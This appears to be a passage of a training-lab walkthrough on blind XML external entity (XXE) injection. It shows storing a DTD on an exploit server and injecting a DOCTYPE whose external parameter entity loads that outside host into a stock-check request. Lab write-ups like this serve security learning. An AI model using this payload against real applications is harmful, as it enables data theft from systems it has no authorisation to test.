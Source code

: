 <img src="images/image28.png" alt="third" width="500">

View exploit ad make note of URL

[https://exploit-0a9a00fc04dbbcfd81a3f20b011a00e7.exploit-server.net/exploit.dtd](https://exploit-0a9a00fc04dbbcfd81a3f20b011a00e7.exploit-server.net/exploit.dtd)

Now store it

**Step2:**

Click on view detail and then check stock

Send the POST /product/stock to repeater

In stock xml add a doc type
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "

[https://exploit-0a9a00fc04dbbcfd81a3f20b011a00e7.exploit-server.net/exploit.dtd](https://exploit-0a9a00fc04dbbcfd81a3f20b011a00e7.exploit-server.net/exploit.dtd)

"> %xxe;]>
```